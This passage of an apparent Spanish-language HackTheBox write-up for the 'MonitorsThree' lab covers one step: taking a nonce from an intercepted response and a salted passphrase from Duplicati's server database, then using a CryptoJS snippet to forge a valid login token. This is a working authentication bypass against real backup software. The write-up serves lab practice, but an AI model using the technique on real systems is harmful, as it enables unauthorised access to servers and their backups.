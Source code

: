 ![](assets/img/htb-writeup-monitorsthree/monitorsthree6_1.png)

Extraigo los valores de interés del response interceptado.
* Nonce: ```"Nonce": "LXvXjDAJVXgBezoVXcXW+psVClH8j15IbkSn4FWnJ18="```
* Salt: (Debe coincidir con el valor de `server-passphrase-salt` en `Duplicati-server.sqlite`).

![](assets/img/htb-writeup-monitorsthree/monitorsthree6_2.png)


Utilizo el Nonce y el Server-passphrase decodificado para generar un token de autenticación válido.

```javascript
var saltedpwd = "59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a";

var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('LXvXjDAJVXgBezoVXcXW+psVClH8j15IbkSn4FWnJ18=') + saltedpwd)).toString(CryptoJS.enc.Base64);

console.log(noncedpwd);
```
